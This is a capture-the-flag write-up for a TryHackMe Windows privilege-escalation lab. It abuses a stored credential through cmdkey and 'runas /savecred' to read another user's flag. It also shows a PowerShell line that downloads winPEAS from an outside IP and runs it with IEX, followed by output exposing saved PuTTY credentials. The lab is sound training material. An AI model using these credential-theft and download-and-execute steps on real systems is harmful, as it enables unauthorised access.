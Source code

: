 > 098n0x35skjD3

##### There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop.

```bash
PS C:\Users\thm-unpriv > cmdkey /list
Currently stored credentials:

    Target: Domain:interactive=WPRIVESC1\mike.katz
    Type: Domain Password
    User: WPRIVESC1\mike.katz

PS C:\Users\thm-unpriv > runas /savecred /user:WPRIVESC1\mike.katz cmd.exe
```

```bash
C:\Windows\System32>cd %userprofile%\Desktop

C:\Users\mike.katz\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\mike.katz\Desktop

05/04/2022  05:17 AM    <DIR>          .
05/04/2022  05:17 AM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
05/04/2022  05:17 AM                24 flag.txt
               3 File(s)          1,105 bytes
               2 Dir(s)  15,047,585,792 bytes free

C:\Users\mike.katz\Desktop>type flag.txt
THM{WHAT_IS_MY_PASSWORD}
```

> THM{WHAT_IS_MY_PASSWORD}

##### Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?

Winpeas result:

```bash
(new-object system.net.webclient).downloadstring('http://10.11.19.145/winPEAS.ps1') | IEX
```

```bash
==|| Putty Stored Credentials Check
Key: My%20ssh%20server
HostName :
thmdc.local
PortNumber :
22
UserName :

PublicKeyFile :

PortForwardings :

ConnectionSharing :
0
ProxyUsername :
thom.smith
ProxyPassword :
```